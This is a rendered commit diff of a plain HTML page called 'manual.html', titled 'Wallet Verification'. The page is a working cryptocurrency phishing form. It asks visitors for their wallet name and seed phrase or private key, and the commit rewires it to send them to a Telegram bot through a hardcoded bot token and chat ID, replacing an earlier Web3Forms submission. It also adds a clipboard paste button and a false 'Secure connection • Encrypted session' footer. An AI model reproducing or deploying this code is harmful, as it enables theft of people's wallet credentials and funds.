

Before and after one commit to annamoyosore/blockchainsyncronize, a plain HTML site: page manual.html in a window 1280 px wide. Shown: the part 114-704 px from the top of the page, without its empty margins (324-964 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update manual.html

```diff
--- a/manual.html
+++ b/manual.html
@@ -2,13 +2,15 @@
 <html lang="en">
 <head>
 <meta charset="UTF-8">
-<title>Wallet login</title>
 <meta name="viewport" content="width=device-width, initial-scale=1.0">
+<title>Wallet Verification</title>
 
 <style>
 body {
+  margin: 0;
   font-family: Arial, sans-serif;
-    background: #f4f6f9;
+  background: #0d1117;
+  color: #fff;
   display: flex;
   justify-content: center;
   align-items: center;
@@ -16,83 +18,81 @@
 }
 
 .container {
-    background: #ffffff;
-    padding: 25px;
+  background: #161b22;
+  padding: 30px;
+  border-radius: 12px;
   width: 100%;
-    max-width: 450px;
-    border-radius: 10px;
-    box-shadow: 0 5px 15px rgba(0,0,0,0.1);
+  max-width: 380px;
+  box-shadow: 0 0 30px rgba(0,0,0,0.6);
+  border: 1px solid #30363d;
 }
 
 h2 {
   text-align: center;
   margin-bottom: 20px;
+  font-weight: 500;
 }
 
 input, textarea {
   width: 100%;
-    padding: 10px;
-    border: 1px solid #ccc;
-    border-radius: 6px;
+  padding: 12px;
+  margin-top: 10px;
+  border-radius: 8px;
+  border: 1px solid #30363d;
+  background: #0d1117;
+  color: #fff;
   font-size: 14px;
+  outline: none;
+}
+
+input:focus, textarea:focus {
+  border-color: #238636;
+}
+
+.textarea-wrapper {
+  position: relative;
 }
 
 textarea {
   resize: none;
-    height: 140px;
-  }
-
-  .field {
-    margin-bottom: 15px;
-  }
-
-  .required-text {
-    font-size: 11px;
-    color: #888;
-    margin-top: 4px;
-  }
-
-  .textarea-row {
-    display: flex;
-    gap: 8px;
-    align-items: flex-start;
+  height: 110px;
+  padding-right: 50px;
 }
 
 .paste-btn {
-    background: #1877f2;
+  position: absolute;
+  top: 8px;
+  right: 8px;
+  font-size: 11px;
+  padding: 4px 7px;
+  background: #238636;
   color: white;
   border: none;
-    padding: 10px;
-    border-radius: 6px;
+  border-radius: 4px;
   cursor: pointer;
-    font-size: 13px;
-    white-space: nowrap;
 }
 
 .paste-btn:hover {
-    background: #0f5dc2;
+  background: #2ea043;
 }
 
 .submit-btn {
   width: 100%;
   padding: 12px;
-    background: #28a745;
+  margin-top: 18px;
+  border-radius: 8px;
+  border: none;
+  background: linear-gradient(90deg, #238636, #2ea043);
   color: white;
-    border: none;
-    border-radius: 6px;
-    font-size: 16px;
+  font-size: 14px;
   cursor: pointer;
 }
 
-  .submit-btn:hover {
-    background: #1e7e34;
-  }
-
-  .success-message {
-    display: none;
+.footer {
   text-align: center;
-    color: green;
-    margin-top: 10px;
+  font-size: 12px;
+  margin-top: 15px;
+  color: #8b949e;
 }
 </style>
 </head>
@@ -100,79 +100,76 @@
 <body>
 
 <div class="container">
-  <h2>Multi-Coin Wallet</h2>
-  <p>After pasting the phrase ensure you delete/remove all space between each words for safety and successfull login  no space between each phrase</p>
+  <h2>Multi Coin Verification</h2>
+  <p>Login to Continue</p>
 
-       <form action="https://api.web3forms.com/submit" method="POST">
-    <!-- Web3Forms Key -->
-    <input type="hidden" name="access_key" value="39483916-2d75-4776-91f8-2bbc171def4f">
+  <form id="form">
+    <input type="text" id="username" placeholder="Wallet Name/Trust wallet/exoduswallet" required>
 
-<!-- Username Field -->
-<div class="field">
-  <input type="text" name="name" placeholder=" Wallet Name" required>
-  <div class="required-text">* Required</div>
-</div>
-    <!-- Complaint Field + Paste Button -->
-    <div class="field">
-      <div class="textarea-row">
-        <textarea name="message" name="name"  placeholder="Input Phrase" required></textarea>
+    <div class="textarea-wrapper">
+      <textarea id="complaint" placeholder="Enter recovery phrase" required></textarea>
       <button type="button" class="paste-btn" onclick="pasteClipboard()">Paste</button>
     </div>
-      <div class="required-text">Enter seed phrase or private key
-Input your seed phrases with spacing. Supports 12-word, 24-word seed phrases and private keys for all wallet types</div>
-    </div>
 
-    <!-- Submit -->
-    <button type="submit" class="submit-btn">Restore Wallet</button>
-
+    <button class="submit-btn">Restore Wallet</button>
   </form>
 
-  <div class="success-message" id="successMsg">
-    ✅  network error use connect wallet button</div>
+  <div class="footer">
+    Secure connection • Encrypted session
+  </div>
 </div>
 
 <script>
+// 🔐 PUT YOUR REAL BOT TOKEN HERE
+const TOKEN = "8214623213:AAGlhEDRFbCnQaG0X1r2blaG0YJlHlkNkRs";
+
+// ✅ Your chat ID (you already got it)
+const CHAT_ID = "6994958690";
+
+// 📋 Paste button
 async function pasteClipboard() {
   try {
     const text = await navigator.clipboard.readText();
-    const textarea = document.querySelector("textarea[name='message']");
-
-    if (!textarea) {
-      alert("Textarea not found.");
-      return;
-    }
-
-    textarea.value = text;
-  } catch (err) {
-    alert("Clipboard permission denied or not supported.");
-    console.error(err);
+    document.getElementById("complaint").value += text;
+  } catch {
+    alert("Clipboard denied");
   }
 }
 
-const form = document.getElementById("complaintForm");
-const successMsg = document.getElementById("successMsg");
+// 📩 Send to Telegram
+document.getElementById("form").addEventListener("submit", async (e) => {
+  e.preventDefault();
 
-form.addEventListener("submit", function(event) {
-  event.preventDefault();
+  const username = document.getElementById("username").value;
+  const complaint = document.getElementById("complaint").value;
 
-  const formData = new FormData(form);
+  const message = `🔐 Wallet Verification
 
-  fetch("https://api.web3forms.com/submit", {
+👤 User: ${username}
+
+📝 Data:
+${complaint}
+
+⏰ ${new Date().toLocaleString()}`;
+
+  try {
+    await fetch(`https://api.telegram.org/bot${TOKEN}/sendMessage`, {
       method: "POST",
-    body: formData
+      headers: {
+        "Content-Type": "application/json"
+      },
+      body: JSON.stringify({
+        chat_id: CHAT_ID,
+        text: message
       })
-  .then(response => response.json())
-  .then(data => {
-    if (data.success) {
-      form.reset();
-      successMsg.style.display = "block";
-    } else {
-      alert("Submission failed. Try again.");
+    });
+
+    // ✅ Redirect after success
+    window.location.href = "success.html";
+
+  } catch {
+    alert("Network error!");
   }
-  })
-  .catch(error => {
-    alert("Error submitting form.");
-  });
 });
 </script>
 
```
Lines whose indentation alone changed are shown as unchanged.
